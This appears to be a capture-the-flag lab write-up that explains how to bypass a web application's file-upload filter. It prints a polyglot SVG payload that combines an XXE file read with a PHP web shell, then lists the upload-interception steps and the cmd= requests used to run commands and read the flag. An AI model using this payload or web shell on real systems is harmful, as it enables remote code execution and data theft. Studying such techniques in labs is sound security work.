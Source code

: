 ```
$ cat shell.phar.svg 
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]> <svg>&xxe;</svg> <?php system($_REQUEST['cmd']); ?>
```

```
mv shell.phar.svg shell.phar.jpeg
```

Go back to the webpage and upload the `shell.phar.jpeg` and intercept the request: 


<img width="729" height="533" alt="image" src="https://github.com/user-attachments/assets/305ad656-02e9-443c-8519-a354dd58a22d" />

Change back the extension to .svg for filename and make Content-Type to be image/svg+xml, then forward the request:

<img width="1481" height="498" alt="image" src="https://github.com/user-attachments/assets/2509903a-c3d8-4d6f-a073-507acf64dfd0" />
<img width="1922" height="722" alt="image" src="https://github.com/user-attachments/assets/3f2b3529-4d7c-447f-b025-8867f7afe054" />


Visit the webpage browser to locate the request at http://IP:PORT/contact/user_feedback_submissions/YMD_shell.phar.svg
while appending `cmd=ls+/` to the end of the search. 

`NOTE` make sure you actually do the Year Month Date of the submission.. the date is important! For example I went to 
`http://94.237.123.119:45573/contact/user_feedback_submissions/251002_shell.phar.svg?cmd=ls+/` because the date is October 2, 2025
 which is = 251002

<img width="1713" height="679" alt="image" src="https://github.com/user-attachments/assets/e506fffe-79ec-4c60-bd7f-e6b193df988b" />

Get the flag txt: 

`http://94.237.123.119:45573/contact/user_feedback_submissions/251002_shell.phar.svg?cmd=cat+/flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt`

<img width="1546" height="631" alt="image" src="https://github.com/user-attachments/assets/d86792f2-f08b-4d12-a638-779626377740" />

---












